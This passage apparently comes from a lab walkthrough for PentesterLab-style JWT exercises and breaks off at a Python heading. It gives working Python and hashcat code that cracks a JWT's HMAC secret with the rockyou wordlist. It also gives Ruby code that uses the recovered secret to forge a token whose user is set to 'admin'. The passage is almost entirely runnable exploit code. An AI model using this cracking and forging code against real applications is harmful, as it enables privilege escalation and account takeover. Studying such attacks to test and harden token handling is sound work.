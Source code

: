     - Using python:

      ```python
      import hmac
      import hashlib
      import base64

      jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjpudWxsfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM"

      h, p, s = jwt.split(".")

      def sign(str, key):
          return base64.urlsafe_b64encode(hmac.new(key, str, hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

      file = open("/usr/share/wordlists/rockyou.txt", 'r')
      lines = file.readlines()

      for line in lines:
          key = line.strip()
          if sign(h + "." + p, key) == s:
              print(key)
      ```

    - Using hashcat:

      ```bash
      $ hashcat -m 16500 -d 3 jwt /usr/share/wordlists/rockyou.txt
      ```


2. Sign the JWT

    - Using ruby:

      ```ruby
      require 'base64'
      require 'openssl'

      jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjpudWxsfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM"
      secret = "pentesterlab"
      header, data, signature = jwt.split('.')

      def sign(data, secret)
          Base64.urlsafe_encode64(OpenSSL::HMAC.digest(OpenSSL::Digest.new('SHA256'), secret, data)).gsub("=","")
      end

      require 'json';
      payload = JSON.parse(Base64.urlsafe_decode64(data+"=="))
      payload["user"] = "admin"

      newdata = Base64.urlsafe_encode64(payload.to_json).gsub("=", "")
      puts header+"."+newdata+"."+sign(header+"."+newdata, secret)
      ```

    - Using python:

